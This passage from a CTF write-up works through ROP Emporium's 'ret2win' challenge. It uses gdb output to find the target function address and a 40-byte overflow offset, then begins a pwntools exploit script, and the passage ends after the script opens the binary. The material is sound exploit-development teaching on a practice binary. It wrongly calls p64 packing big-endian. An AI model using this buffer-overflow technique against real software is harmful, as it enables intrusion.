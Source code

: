```
gef➤  print ret2win
$1 = {<text variable, no debug info>} 0x400756 <ret2win>
```

ret2win address is `0x400756`.

so we can now send `Pattern + 0x400756` and to jump to that address.

to calculate the pattern offset before the return address we use gdb pattern so:

```
gef➤  pattern search faaaaaaa
[+] Searching 'faaaaaaa'
[+] Found at offset 33 (little-endian search) likely
[+] Found at offset 40 (big-endian search)
```

in our case it's `40` so `'A'*40 + 0x400756`, where `0x400756` is ret2win address


but first we need a way to convert that address, just like `0x6161616161616166` is `faaaaaaa`, we can't just paste it from the keyboard.

there is python tool for that, that can help us convert and interact with the binary called [pwntools](http://docs.pwntools.com/en/stable/) which we gonna use.

`Pattern = 40`
`ret2win address = 0x400756`

we can close gdb now

```
gef➤  q
$
```

## Writing the exploit:

* Using pwntools:

in a file we call [exploit.py](https://github.com/l0x539/CTFs-writeups/blob/master/ropemporium/ret2win/exploit.py) and using python3.
```python3

first we import:

```python3
from pwn import process, p64
```
`process` to run the file
`p64` to convert the address to latin-1 big-endian

opening and running the file with pwn.

```python3
# one line, great tool
p = process("./ret2win")
```
